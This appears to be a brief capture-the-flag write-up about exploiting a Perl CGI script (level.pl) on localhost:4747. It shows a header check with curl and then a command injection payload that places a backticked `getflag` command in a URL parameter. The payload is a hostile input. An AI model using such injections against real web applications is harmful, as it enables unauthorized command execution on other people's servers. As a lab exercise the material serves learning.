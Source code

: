 # We found in home: level.pl
# We checked the header:
curl -I "localhost:4747"

# We Cat'ed the perl file and we noticed that there is a possibility to inject the param
curl 'localhost:4747?x=`getflag`'

# We got the flag TADAAAAA